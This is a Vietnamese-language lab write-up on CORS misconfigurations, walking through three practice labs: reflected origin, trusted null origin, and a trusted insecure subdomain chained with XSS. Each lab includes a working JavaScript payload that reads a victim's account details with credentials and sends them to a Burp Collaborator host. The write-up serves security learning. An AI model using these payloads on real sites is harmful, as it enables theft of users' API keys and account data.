# Cross-origin resource sharing (CORS)
## Khái niệm

**Cross-origin resource sharing**, dịch tạm là "Chia sẻ tài nguyên xuyên nguồn gốc". Đây là cơ chế cho phép 1 web hoặc domain truy cập vào tài nguyên của một domain khác.

Cơ chế này sinh ra vì **Same-origin policy**, là chính sách bảo mật ngăn chặn các website có khả năng truy cập thiếu kiểm soát vào tài nguyên của các trang web khác. Nếu không có CORS, các trang web sẽ không có khả năng truy cập cũng như tương tác với tài nguyên của origin khác. 

Tuy nhiên, nếu việc config chính sách CORS không cẩn thận, thì kẻ tấn công có thể tấn công vào website bằng XSS hay CSRF, vì bản chất CORS là cơ chế hỗ trợ truy cập tài nguyên chứ không phải cơ chế bảo vệ trang web.

## Lab

### Lab: CORS vulnerability with basic origin reflection
Website của Lab này chứa lỗi sơ đẳng của việc setting CORS. 

Cụ thể, sau khi đăng nhập thành công, xuất hiện Request `accountDetails` dùng để trả thông tin của user sau khi đổi email:



Request này không chứa bất cứ token nào, nên ta có thể gửi Request này tới nạn nhân để hệ thống trả về dữ liệu. Bên cạnh đó, trong Header của Response xuất hiện `Access-Control-Allow-Credentials`, tức là API này có sử dụng CORS. Ta có thể thử Header `Origin` để kiểm tra giả thuyết.



Vì `Access-Control-Allow-Origin` hiện giá trị là domain ta inject, nên điều đó chứng tỏ website chấp nhận mọi yêu cầu truy cập tài nguyên từ bên ngoài. Khi này ta xây dựng payload để gửi tới nạn nhân:
```HTML
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://<Lab-ID>/accountDetails', true);
req.withCredentials = true;
req.send();

function reqListener(){
 location='//<BurpCollaborator-domain>/log?key='+this.responseText;
};
</script>
```



Sau khi lấy được API Key của admin, ta submit để kết thúc Lab.

### Lab: CORS vulnerability with trusted null origin
Cùng với cách thức triển khai tương tự, nhưng lỗ hỏng của Lab này nằm ở filter `Origin` Header.

Cụ thể, nếu ta vẫn gửi request với `Origin` là URL lạ, hệ thống sẽ chặn:



Nếu thay URL đấy bằng Lab-ID thì hệ thống chấp nhận



Tuy nhiên, nếu ta gửi đi giá trị là null, hệ thống vẫn chấp nhận Request:



Ta có thể xây dựng payload dựa trên đặc tính này để có thể bypass filter check của website:
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://<Lab-ID>/accountDetails', true);
req.withCredentials = true;
req.send();

function reqListener(){
 location='//<BurpCollaborator-domain>/log?key='+this.responseText;
};
</script>"></iframe>
```



### Lab: CORS vulnerability with trusted insecure protocols
Cũng với cách triển khai như trên, nhưng khi này ta sẽ cần phải tìm domain mà website này tin tưởng. 

Kiểm tra các chức năng có trong website này, ta sẽ tìm được chức năng `check stock` có chứa vuln XSS. Khi ta nhấp vào thực thi chức năng, ta sẽ thấy một cửa sổ pop-up hiện lên thông báo số lượng hàng:



Check source code của trang web này, ta sẽ lấy được domain của pop-up trên:
```JS
const stockCheckForm = document.getElementById("stockCheckForm");
stockCheckForm.addEventListener("submit", function(e) {
    const data = new FormData(stockCheckForm);
    window.open('http://stock.<Lab-ID>/?productId=2&storeId=' + data.get('storeId'), 'stock', 'height=10,width=10,left=10,top=10,menubar=no,toolbar=no,location=no,status=no');
    e.preventDefault();
});
```

Bằng việc inject XSS vào param `productID`, ta sẽ trigger được lỗ hỏng.



Bên cạnh đó, nếu ta sử dụng domain này làm giá trị cho Header `Origin`, hệ thống sẽ chấp nhận mà hiển thị Header `Access-Control-Allow-Origin`:



Ta sẽ xây dựng payload để inject toàn bộ payload ở 2 lab trên vào param của domain chứa vuln XSS, rồi gửi đến nạn nhân:
```HTML
<script>
 document.location="http://stock.<Lab-ID>/?productId=<script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get', 'https://<Lab-ID>/accountDetails', true);req.withCredentials = true;req.send();function reqListener(){location='//<BurpCollaborator-Domain>/log?key='%2bthis.responseText;};%3c/script>&storeId=1"
</script>
```


